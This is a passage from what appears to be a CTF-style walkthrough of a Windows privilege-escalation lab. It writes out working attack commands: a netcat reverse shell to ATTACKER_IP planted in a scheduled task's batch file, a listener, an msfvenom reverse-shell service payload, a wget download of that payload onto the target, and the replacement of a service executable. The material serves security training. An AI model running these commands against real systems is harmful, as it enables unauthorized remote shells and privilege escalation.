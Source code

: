 You will need to manually open "**schtask.bat**" in notepad and type the reverse shell in otherwise it will consistently give you an error and wont execute.

```shell
C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Now setup a listener on the attack box.

```bash
nc -lvp 4444
```

Make sure you run the task in Command prompt as well.

```shell
schtasks /run /tn vulntask
```

Now you should have a shell. the flag will be in taskusr1's desktop.


---
### task 5
---
#### Insecure permissions on service executable

Here it is pretty strait forward. This will have you primarily use msfvenom to craft a reverse shell payload to get your shell.

On your attack box craft your payload with this.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```
(you can use this over the rest of the task)

Get this on the target however you choose. I like python so I used

```bash
python3 -m http.server
```

On the target machine I used wget in powershell to retrieve the file.

```powershell
wget http://ATTACK_BOX_IP:8000/rev-svc.exe -O rev-svc.exe
```


Make a copy of "**rev-svc.exe**"(to make the rest of the task easier)

cd to the services directory

```shell
cd C:\PROGRA~2\SYSTEM~1\
```

Now change the name of the service we want 

```shell
move WService.exe WService.exe.bkp
```
